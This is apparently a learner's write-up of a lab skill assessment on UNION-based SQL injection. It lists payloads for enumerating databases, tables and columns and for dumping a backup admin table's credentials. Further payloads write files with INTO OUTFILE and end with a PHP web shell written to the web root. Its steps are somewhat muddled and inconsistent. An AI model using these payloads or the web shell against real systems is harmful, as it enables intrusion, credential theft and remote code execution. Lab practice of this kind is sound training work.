 # Skill Assessment

Here is the first successful injection results:

>cn' UNION select 1,2,3-- -

With the resulting output:

>Adam 	January 	1337$ 	5%
>James 	March 	1213$ 	8%

**NOTE: I didn't notice the first time through but this command puts you on a page related to payroll, which intakes different injections than the home page**

I then iterated through another UNION query to find out how many columns were in the table I am accessing:

>cn' UNION SELECT 1,2,3,4,5-- -

Once I determined there were four columns with the above injection, I used \@@version to determine the current version of the database being used:

>cn' UNION SELECT 1,\@@version,3,4,5-- -

Which returned:
 
Now that I knew the name of the database being used, I decided to determine what other databases were available with the following injection:

>cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -

This returned the following:

>information_schema 	3 	4 	5

This returned the following:
 
From here I ruled out the default databases named information_schema, mysql, and performance_schema, and focused on the remaining databases named ilfreight and backup.

Now I decided to discover all the tables within the two databases of interest with the two following statements:
 
>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -

These queries had the following output respectively:

>payment 	ilfreight 	4 	5 
>users 	ilfreight 	4 	5
>admin_bk 	backup 	4 	5

Now I determined that I would list all columns of the admin_bk and backup tables from the backup database:

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk'-- -

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='backup'-- -

This generated the following output respectively:

>username 	admin_bk 	backup 	5
>password 	admin_bk 	backup 	5

>(no output)

Now I decided to dump data from a table in another database:

>c' UNION select 1, username, password, 4, 5 from username.backup-- -

>c' UNION select 1, username, password, 4, 5 from password.backup-- -

This returned that the targets did not exist. I decided to try again using admin_bk instead of backup:

>c' UNION select 1, username, password, 4, 5 from password.admin_bk-- -

Similar results. Clearly I have a problem with my database.table part of the query.

When I tried backup.username, this was still incorrect.
 
I then watched a bit of a youtube vid and tried to use the OUTPUT INTO function to write to the file proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/dashboard/var/www/html/proof.txt'-- -

This did not work because the dashboard directory should be at the end of the directory path to include proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/var/www/html/dashboard/proof.txt'-- -

This returned no output, suggesting that we have successfully written to the file.

I then checked by including /var/www/html/dashboard/proof.txt at the end of my working URL for the site:

>/http://94.237.58.135:59758/dashboard/proof.php

This output indicates that our file write was successful.

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/dashboard/var/www/html/dashboard/proof.txt'-- -

Then I used a modified version of the following script to write php injections into the shell.php file:

>cn' UNION SELECT "", '\<?php system($\_REQUEST\[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -

